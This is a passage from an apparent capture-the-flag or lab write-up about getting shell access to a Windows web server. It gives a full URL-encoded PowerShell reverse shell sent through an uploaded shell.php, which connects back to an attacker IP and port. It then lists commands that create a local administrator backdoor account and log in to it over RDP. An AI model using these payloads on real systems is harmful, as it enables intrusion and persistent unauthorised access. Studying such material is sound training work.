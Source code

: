 		``` 
		http://10.10.53.122/uploads/shell.php?cmd=powershell%20-c%20%22%24client%20%3D%20New-Object%20System.Net.Sockets.TCPClient%28%2710.13.52.88%27%2C8888%29%3B%24stream%20%3D%20%24client.GetStream%28%29%3B%5Bbyte%5B%5D%5D%24bytes%20%3D%200..65535%7C%25%7B0%7D%3Bwhile%28%28%24i%20%3D%20%24stream.Read%28%24bytes%2C%200%2C%20%24bytes.Length%29%29%20-ne%200%29%7B%3B%24data%20%3D%20%28New-Object%20-TypeName%20System.Text.ASCIIEncoding%29.GetString%28%24bytes%2C0%2C%20%24i%29%3B%24sendback%20%3D%20%28iex%20%24data%202%3E%261%20%7C%20Out-String%20%29%3B%24sendback2%20%3D%20%24sendback%20%2B%20%27PS%20%27%20%2B%20%28pwd%29.Path%20%2B%20%27%3E%20%27%3B%24sendbyte%20%3D%20%28%5Btext.encoding%5D%3A%3AASCII%29.GetBytes%28%24sendback2%29%3B%24stream.Write%28%24sendbyte%2C0%2C%24sendbyte.Length%29%3B%24stream.Flush%28%29%7D%3B%24client.Close%28%29%22
		```
		![task13-win-get-shell.png](./images/task13-win-get-shell.png)

* The webserver is running with SYSTEM privileges. Create a new user and add it to the "administrators" group, then login over RDP or WinRM.

	* Step 1 add username = `net user kakakseram qwerty /add`
	* Step 2 add admin group = `net localgroup administrators kakakseram /add`

	![task13-add-user](./images/task13-add-user.png)

	* Step 3 try to login = `xfreerdp /dynamic-resolution +clipboard /cert:ignore /v:$IP /u:kakakseram /p:'qwerty'`

	![task13-rdp](./images/task13-rdp.png)
